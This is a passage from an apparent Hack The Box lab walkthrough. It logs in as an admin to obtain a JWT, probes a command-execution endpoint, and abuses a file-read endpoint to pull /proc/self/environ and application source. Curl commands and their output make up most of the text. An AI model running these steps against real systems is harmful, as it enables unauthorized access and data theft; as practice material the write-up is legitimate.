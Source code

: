  Let's grab the JWT token for this admin user
 
 ```
 ┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST -d "username=admin%40htb.local&password=password" -H 'Content-Type: application/x-www-form-urlencoded' http://10.10.11.161/api/v1/user/login
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.4EsnOsihmJTkzdPEPZEA78jHNXEkZ89UBUXMIf2wT_E","token_type":"bearer"} 
 ```
 
 Let's try and run commands using the `exec` feature.
 ```
 ┌──(kali㉿kali)-[~/htb]
└─$ curl -X GET http://10.10.11.161/api/v1/admin/exec/id -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.4EsnOsihmJTkzdPEPZEA78jHNXEkZ89UBUXMIf2wT_E" 
{"detail":"Debug key missing from JWT"}   
 ```
 
  We cant run any commands because we are missing the debug key. Lets see if we can hunt for it using the `/api/v1/admin/file` endpoint.
  
The first file we can look at is `/self/proc/environ`. This is a common file to look at when an LFI is present. This file contains lots of environment variables. From this file, we can see that `/home/htb/uhc/app/main.py` is the config file for this webserver
 ```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.4EsnOsihmJTkzdPEPZEA78jHNXEkZ89UBUXMIf2wT_E" -H 'Content-Type: application/json' -d '{"file": "/proc/self/environ"}'
{"file":"APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=2d037c2c7fe6474bb3f0e6daf985ec81\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:18235\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"}                                                                       
 ```
 
 This output is super messy and we could go clean it up but there is an import `app.core.config` that stuck out. Let's see what is inside
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.4EsnOsihmJTkzdPEPZEA78jHNXEkZ89UBUXMIf2wT_E" -H 'Content-Type: application/json' -d '{"file": "/home/htb/uhc/app/main.py"}'
```